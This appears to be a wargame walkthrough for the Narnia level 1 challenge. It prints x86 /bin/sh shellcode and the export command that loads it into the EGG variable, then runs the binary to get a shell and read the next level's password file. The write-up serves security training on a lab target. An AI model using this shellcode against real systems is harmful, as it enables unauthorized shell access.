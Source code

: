 The source code above is for the binary narnia1, this is a simple vulnerability. The binary looks for an environment varible called “EGG” using the getenv() function and if the environment varible is executed. Since some of the challenges from the IO series of challenges from Smashthestack.org required me to insert some shellcode into a environment varible.

```
#shellcode
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"
```
The above shellcode is what I planned to use to gain a shell, it is a “/bin/sh” payload which is the same shellcode I’ve used in several challenges from my IO walkthrough blogposts, the original location of shellcode is from smashing the stack for fun and profit. Using the below the command I was able to create the environment varible called “EGG” which will contain the shellcode.

```
export EGG=$(python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')
```

Next I simply just executed the binary which found the environment varible called “EGG” and executed the shellcode giving me a shell and then just used the cat command to print out the contents of the narnia2 password file.

```
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
$ cat /etc/narnia_pass/narnia2
```
